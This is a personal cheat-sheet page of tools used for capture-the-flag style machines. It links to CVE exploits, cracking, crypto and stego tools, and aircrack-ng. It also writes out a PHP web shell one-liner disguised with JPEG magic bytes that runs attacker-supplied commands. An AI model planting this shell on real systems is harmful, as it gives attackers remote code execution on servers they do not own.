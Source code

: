 ```yaml
---
layout: page
title: Tools
subtitle: Tools i used to solve machines
permalink: /Tools/
#gallery_path: "assets/img/pexels"
tags: [Page]
---
```



# BASE CVE

CVE-2019-14813 [ghost_script](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

CVE-2018-10993  [Libssh 0.8.1](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)

CVE-2019-1010174 [CVE-2019-1010174](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1010174)


# Brute Force Tools

Ssh2john [Ssh2john](https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810)

# Applictions

Tmux [Tmux](https://man7.org/linux/man-pages/man1/tmux.1.html)

OpenSMTPD 6.4.0 < 6.6.1  [OpenSMTPD](https://www.exploit-db.com/exploits/48051)

PHP file as image  >  **echo '\xff\xd8<?=`{$_GET["cmd"]}`;' > exec.php** 

Magic byts [Magic byts](https://en.wikipedia.org/wiki/List_of_file_signatures)

debug group [Debug group](/assets/img/gdb1.png)

playbooks [playbooks](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html)


# Web Applictions

Node.js Express framework [Node.js Express framework](https://haboob.sa/ctf/nullcon-2019/blog.html)

Memcache Enumartion [Memcache](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache)

mPDF and PHP [mPDF](https://github.com/mpdf/mpdf/issues/356#issue-216032258)

meta-git [meta-git-rce](https://hackerone.com/reports/728040)


# Encryption

CyberChef [CyberChef](https://gchq.github.io/CyberChef/)

crackstation [crackstation](https://crackstation.net/)

identification-chiffrement [identification-chiffrement](https://www.dcode.fr/identification-chiffrement)

Crypto RSA [Crypto RSA](https://chowdera.com/2022/136/202205160703029213.html)

Cipher Identifier and Analyzer [Cipher Identifier and Analyzer](https://www.boxentriq.com/code-breaking/cipher-identifier)

Hacking Secret Ciphers with Python [Hacking Secret Ciphers with Python](http://inventwithpython.com/hacking/)

Read PDF as TEXT **>  pdftotext Financial_Report_for_ABC_Labs.pdf**

Steganography Tools [Steganography Tools](https://futureboy.us/stegano/)

LSB encoding  **>zsteg FILE**

# Wifi

aircrack-ng [crack wifi pass from pcap file](https://www.aircrack-ng.org/doku.php?id=aircrack-ng) 

example:
*aircrack-ng  wpa-ing_out.pcap -w PATH TO WORDLIST*
